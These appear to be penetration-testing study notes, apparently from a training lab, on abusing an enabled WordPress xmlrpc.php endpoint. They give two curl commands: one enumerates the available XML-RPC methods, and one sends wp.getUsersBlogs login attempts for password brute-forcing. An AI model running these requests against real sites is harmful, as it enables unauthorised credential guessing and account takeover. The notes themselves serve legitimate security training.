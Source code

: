 ## Attacking WordPress 'xmlrpc.php'

`xmlrpc.php` being enabled on a wordpress instance is not a vulnerability, but depending on the methods allowed it can give some enumeration and exploitation activities 

if we are assessing the security of `http://blog.inlanefreight.com` and through enumeration found the `admin` username and that `xmlrpc.php` is enabled   

we can then mount a password brute-force attack through `xmlrpc.php`: 

```shell
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php
```

we knew that we could call this with `system.listMethods` and by going through the wordpress source code https://codex.wordpress.org/XML-RPC/system.listMethods and by interacting with the `xmlrpc.php`: 

```shell
curl -s -X POST -d "<methodCall><methodName>system.listMethods</methodName></methodCall>" http://blog.inlanefreight.com/xmlrpc.php
```

![](Images/Pasted%20image%2020240307163034.png)
